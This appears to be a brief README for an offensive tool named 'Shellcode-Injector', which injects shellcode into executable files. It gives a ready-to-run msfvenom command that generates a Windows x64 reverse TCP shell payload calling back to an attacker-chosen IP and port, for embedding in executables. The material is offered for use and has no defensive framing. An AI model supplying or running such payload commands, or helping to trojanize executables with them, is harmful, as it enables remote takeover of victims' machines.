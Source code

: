 # Shellcode-Injector
Inject shellcode into executable .                                                                                                                


NOTE : CREATE YOUR OWN SHELLCODE USING MSFVENOM

Example : msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR IP LPORT=4444 -f c
